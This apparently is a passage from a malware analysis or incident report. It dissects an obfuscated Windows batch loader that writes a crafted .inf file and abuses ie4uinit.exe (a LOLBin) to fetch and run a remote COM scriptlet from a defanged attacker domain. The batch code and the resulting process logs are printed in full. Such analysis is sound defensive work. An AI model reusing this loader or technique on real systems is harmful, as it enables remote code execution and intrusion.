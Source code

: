 ```
(for %%a in ("[089F]" "sc\" "ro%%Clarify%%j,NI,%%Serious%%%%Departments%%%%Departments%%p%%Jaguar%%%%Groups%%%%Groups%%a92837f.johnshimkus.%%Questions%%/setthevar" "[strings]" "Questions=com" "Groups=/" "Clarify=b;Proud" "Jaguar=:;Creatures" "Serious=h" "Danger=%%time%%" "Defines=init" "shortsvcname=' '" "Departments=t;Toast" "servicename=' '" "[destinationdirs]" "defaultdestdir=11" "824=01" "[defaultinstall.windows7]" "Un\" "Register\" "OCXs=089F" "delfiles=824" "[824]" "ieu%%Defines%%.inf" "[version]" "signature$windows nt$" ) do @echo %%~a) > "%%appdata%%\microsoft\ieuinit.inf"
```

And then moves a legitimate copy of the binary, ie4uinit.exe, to a custom location while also setting some additional environment variables.

```
call xcopy /Y /C /Q %%windir%%\system32\ie4uinit.exe "%%appdata%%\microsoft\*" | set Pupils59=Seats && start "" wmic process call create "%%appdata%%\microsoft\ie4uinit.exe -basesettings" | set "Pupils4=Involves Bestsellers Clubs Discussions Crane Acquire Switch Young Estates Advisors Presents Calls Subscriptions Replies Rangers Congress Quote Thesis Makers Gives Folks Quality Vital Posters Paintings Diamond Legend Crucial Installations Across Surplus Double Diabetes Centuries Stadium Unveil Input Segment Databases Disabilities Desert Baskets Ghost Recall Illustrations Pattern Friend Spoon Agents Directories Paperbacks Spike Watches Pilot"
```

This section of commands appeared as follows in the process activity on the beachhead host:

```
%WINDIR%\system32\cmd.exe /S /D /c" call xcopy /Y /C /Q %%windir%%\system32\ie4uinit.exe "%APPDATA%\microsoft\*" "

%WINDIR%\system32\cmd.exe /S /D /c" set Pupils59=Seats "

xcopy /Y /C /Q %WINDIR%\system32\ie4uinit.exe "%APPDATA%\microsoft\*"

%WINDIR%\system32\cmd.exe /S /D /c" start "" wmic process call create "%APPDATA%\microsoft\ie4uinit.exe -basesettings" "

%WINDIR%\system32\cmd.exe /S /D /c" set "Pupils4=Involves Bestsellers Clubs Discussions Crane Acquire Switch Young Estates Advisors Presents Calls Subscriptions Replies Rangers Con
Quote Thesis Makers Gives Folks Quality Vital Posters Paintings Diamond Legend Crucial Installations Across Surplus Double Diabetes Centuries Stadium Unveil Input Segment Databases
Disabilities Desert Baskets Ghost Recall Illustrations Pattern Friend Spoon Agents Directories Paperbacks Spike Watches Pilot""

wmic process call create "%APPDATA%\microsoft\ie4uinit.exe -basesettings"

%APPDATA%\microsoft\ie4uinit.exe -basesetting
```

**Abusing ie4uinit.exe (LOLBin)**

The flow uses a documented execution hijack of IE4uinit.exe ([https://lolbas-project.github.io/lolbas/Binaries/Ie4uinit/](https://lolbas-project.github.io/lolbas/Binaries/Ie4uinit/)). By supplying a “side-loaded” .inf file to IE4uinit.exe, it can be used to load and execute COM scriptlets (SCT) from remote servers. In this case it was observed to reach out to the URL:

```
hxxp://a92837f.johnshimkus[.]com/setthevar
```
